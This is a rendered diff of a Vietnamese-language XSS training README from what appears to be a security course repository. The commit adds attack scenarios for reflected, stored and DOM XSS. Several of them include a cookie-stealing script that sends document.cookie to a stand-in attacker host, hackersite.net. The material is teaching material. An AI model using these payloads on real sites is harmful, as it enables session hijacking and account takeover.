

Before and after one commit to caodchuong312/KCSC-Training, a Markdown page: task4/README.md, 3 parts joined by grey strips. Shown at 84% size. Drawn GitHub-style; blank space fills up the shorter version.

````diff
--- a/task4/README.md
+++ b/task4/README.md
@@ -22,7 +23,14 @@ https://insecure-website.com/status?message=All+is+well.
 https://insecure-website.com/status?message=<script>/*+Bad+stuff+here...+*/</script>
 <p>Status: <script>/* Bad stuff here... */</script></p>
 ```
-Khi người dùng truy cập vào một URL có chứa đoạn mã độc. Khi đó trình duyệt sẽ gửi yêu cầu đến server và server trả về trang web kèm tham số được truyền trên URL. Từ đó, các tham số chứa mã độc đó được thực thi trên trình duyệt người dùng.
+Khi người dùng truy cập vào một URL có chứa đoạn mã độc. Khi đó trình duyệt sẽ gửi yêu cầu đến server và server trả về trang web kèm tham số được truyền trên URL. Từ đó, các tham số chứa mã độc đó được thực thi trên trình duyệt người dùng. <br>
+
+**Kịch bản khai thác** <br>
+- Khi người dùng đăng nhập vào trang web và được gắn với một cookie.
+- Kẻ tấn công sẽ tạo ra 1 web có thể nhận được phản hồi ví dụ: `http://hackersite.net` và bằng 1 cách nào đó gửi cho nạn nhân  1 đường link `www.abcd.com?search=<script>window.location="http://hackersite.net?c="+document.cookie</script>`.
+- Khi nạn nhân bị lừa click vào link và khi đó cookie của nạn nhân gắn vào link đó và truy cập vào site của kẻ tấn công.
+- Kẻ tấn công khi ấy sẽ xem log của site và lấy được cookie của nạn nhân qua đó có thể truy cập vào tài khoản và thực hiện nhiều hành động khác.
+
 ### Mức độ của tấn công
 Kẻ tấn công có thể kiểm soát được tập lệnh thực thi của trình duyệt người dùng. Ngoài ra có thể:
 - Thực hiện hành động trong ứng dụng mà người dùng thực hiện được:
@@ -37,13 +45,17 @@ POST /post/comment HTTP/1.1
 Host: vulnerable-website.com
 Content-Length: 100
 
-postId=3&comment=This+post+was+extremely+helpful.&name=Carlos+Montoya&email=carlos%40normal-user.net
+postId=3&comment=This+post+was+extremely+helpful.
 ```
 Sau khi gửi thành công, bất kỳ người dùng nào cũng có thể thấy được comment và phản hồi dưới dạng:
 ```
 <p>This post was extremely helpful.</p>
 ```
-Khi ứng dụng không có xử lý khác, kẻ tấn công sẽ chèn mã độc vào comment đó, khi đó bất kỳ người dùng nào truy cập vào blog đó thì ứng dụng sẽ thực thi mã độc.
+Khi ứng dụng không có xử lý khác, kẻ tấn công sẽ chèn mã độc vào comment đó, khi đó bất kỳ người dùng nào truy cập vào blog đó thì ứng dụng sẽ thực thi mã độc. <br>
+**Kịch bản khai thác** <br>
+- Giả sử khi đó kẻ tấn công chèn mã độc vào bình luận để tải lên:
+```<script>window.location("http://hackersite.net?c="+document.cookie)</script>```
+- Khi có người dùng truy cập vào đúng bài viết có bình luận này thì trình duyệt người dùng thực thi mã độc trên và cookie sẽ đến được với kẻ tấn công.
 #### Mức độ của tấn công
 - Kẻ tấn công có thể thực hiện bất cứ hành động nào mà nạn nhân thực hiện được như cuộc tấn công Reflected XSS.
 - Điểm khác biệt giữa Stored XSS với Reflected XSS là cuộc tấn công này xảy ra trong chính ứng dụng web đó. Ngoài ra kẻ tấn công không phải tìm cách cho nạn nhân thực hiện hành động mới có thể khai thác được mà ở đây bất kỳ nạn nhân trong ứng dụng gặp phải mã độc đó. Với Stored XSS, kẻ tấn công dễ dàng đạt được mục đích hơn vì nạn nhân bị tấn công thì chắc chắn khi đó người dùng đã login và trong phiên làm việc(session) của web.
@@ -58,9 +70,15 @@ document.getElementById("search_results").innerHTML = "Result of " + username
 Trong trường hợp này, kẻ tấn công sẽ chèn mã độc vào trường tìm kiếm và nhập tên người dùng sau:
 ```
 <script>
-  window.location="http://[hacker site]?c="+document.cookie
+  window.location="http://hackersite.net?c="+document.cookie
 </script>
 ```
 Khi trình duyệt thực hiện mã độc này sẽ chuyển hướng đến site của hacker kèm cookie và khi đó kẻ tấn công có được cookie và sử dụng với mục đích xấu.
 #### Mức độ của tấn công
 Giống với các cuộc tấn công khác của XSS, kẻ tấn công có thể ăn căp thông tin quan trọng người dùng, thực hiện các hành động khác ...
+## Cách khai thác và bypass
+- Tìm kiếm và quan sát các đầu vào như ô tìm kiếm, form, URL, parameters, HTTP header, ... nơi mà kẻ tấn công chèn có thể chèn mã độc.
+- Sau đó kẻ tấn công sẽ kiểm tra đầu vào bằng một số ký tự, các tag của html, scripts... rồi xem xét phản hồi nhận được. Test các phương thức trong js xem cách trình duyệt xử lý như `alert()`, `prompt()`.
+- Từ đó xác định nó thuộc loại lỗ hổng XSS nào rồi khai thác như phần trên theo từng loại.
+
+### Một số kỹ thuật và cách bypass
````
Also changed, not shown: other parts of task4/README.md (+1 -0 lines).
